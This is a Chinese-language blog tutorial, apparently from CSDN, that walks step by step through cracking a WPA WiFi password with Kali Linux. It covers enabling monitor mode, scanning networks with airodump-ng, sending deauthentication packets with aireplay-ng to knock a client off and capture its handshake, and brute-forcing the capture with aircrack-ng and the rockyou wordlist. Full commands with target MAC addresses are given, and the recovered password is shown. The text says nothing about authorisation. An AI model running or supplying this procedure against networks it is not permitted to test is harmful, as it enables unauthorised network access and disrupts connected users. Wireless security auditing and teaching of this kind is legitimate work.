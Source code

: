 首先，如果kali是装在虚拟机里面的话，是不能用物理机的无线网卡的。所以，如果我们要想进行无线破解，需要外接一个无线网卡设备，并且该设备要支持 monitor 监听模式

`**iwconfig** :系统配置无线网络设备或显示无线网络设备信息的命令。iwconfig命令类似于ifconfig命令，但是他配置对象是无线网卡，它对网络设备进行无线操作，如设置无线通信频段`

*   `auto： 自动模式`
*   `essid：设置ESSID`
*   `nwid：设置网络ID`
*   `freq： 设置无线网络通信频段`
*   `chanel： 设置无线网络通信频段`
*   `sens： 设置无线网络设备的感知阀值`
*   `mode： 设置无线网络设备的通信设备`
*   `ap： 强迫无线网卡向给定地址的接入点注册`
*   `nick<名字>： 为网卡设定别名`
*   `rate<速率>： 设定无线网卡的速率`
*   `rts<阀值>： 在传输数据包之前增加一次握手，确信信道在正常的`
*   `power： 无线网卡的功率设置`

破解无线wifi可以分为以下几步：

*   查看网卡名字：iwconfig
*   设置网卡为监听模式：airmon-ng  start wlan0
*   扫描附近的WIFI：airodump-ng  wlan0mon
*   选定一个路由器，并监听其流量：airodump-ng -w tplink -c 11 --bssid BC:46:99:3D:66:D6 wlan0mon
*   选定连接的一个客户端，进行攻击：aireplay-ng -0 50 -a BC:46:99:3D:66:D6 -c A0:AF:BD:D8:E6:31  wlan0mon
*   对抓取到的cap包进行暴力破解：aircrack-ng  -w  password.txt  -b BC:46:99:3D:66:D6 tplink-01.cap 

查看无线网卡名字：iwconfig   或者  ifconfig  -a   都可以

![](https://img-blog.csdnimg.cn/20181119155904820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

开启网卡监听模式：airmon-ng  start wlan0   。网卡开启了监听模式之后网卡的名字就变为 wlan0mon  了，以后的所有命令中的网卡名都是叫 wlan0mon

![](https://img-blog.csdnimg.cn/20181119155959216.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

扫描附近的WIFI：airodump-ng  wlan0mon ，会显示附近所有的WIFI信号。

*   BSSID代表路由器的 MAC 地址
*   PWR 代表信号的强度，数值越大代表信息越强
*   CH 代表信道
*   ENC代表用的加密的方式
*   AUTH 代表认证的方式
*   ESSID是WIFI的名字

我们需要选定一个准备破解的WIFI，我们选 tplink-5

![](https://img-blog.csdnimg.cn/20181119160153813.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

监听该路由器的流量：

```
airodump-ng -w tplink -c 11 --bssid BC:46:99:3D:66:D6 wlan0mon   # -w 参数指定生成的文件名  -c 指定信道 --bssid指定路由器的MAC地址
```


下面的 STATION 是连接该WIFI的客户端，下面这里只有一个客户端连接了该WIFI。如果有多个客户端连接的话，我们最好选择活跃点的客户端。

![](https://img-blog.csdnimg.cn/20181119165219125.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

重新打开一个命令行窗口，开始攻击！之前的窗口继续保留，用于观察是否抓包成功

```
aireplay-ng -0 50 -a BC:46:99:3D:66:D6 -c A0:AF:BD:D8:E6:31  wlan0mon  # 50是发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址
```


该命令会打断连接客户端和WIFI之间的连接，等到客户端重新连接WIFI的时候，就会抓取他们之间的握手认证包！ 

![](https://img-blog.csdnimg.cn/20181119164552615.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果看到下面红色圈住的这些，就说明握手包抓取成功了

![](https://img-blog.csdnimg.cn/20181119164947823.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们可以看到会生成四个文件，其中我们有用的文件是以 cap 后缀结尾的文件

![](https://img-blog.csdnimg.cn/20181119165829983.png)

对抓取到的cap包进行破解，这需要我们准备好破解的密码字典。所以，无论是任何破解，都需要一个强大的密码字典！

kali下自带有一份无线密码字典——> /usr/share/wordlists/rockyou.txt.gz ，我们将其解压

![](https://img-blog.csdnimg.cn/20190519130854576.png)

![](https://img-blog.csdnimg.cn/2019051913123037.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
aircrack-ng  -w  /usr/share/wordlists/rockyou.txt  -b  BC:46:99:3D:66:D6 tplink-01.cap #-w指定 密码字典 -b指定路由器的MAC地址
```


可以看到，破解成功！该WIFI的密码为 www.123.com 

![](https://img-blog.csdnimg.cn/2018111916443643.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

从最后可以看出，要想破解出WIFI的密码，还是得需要一个很强大的字典！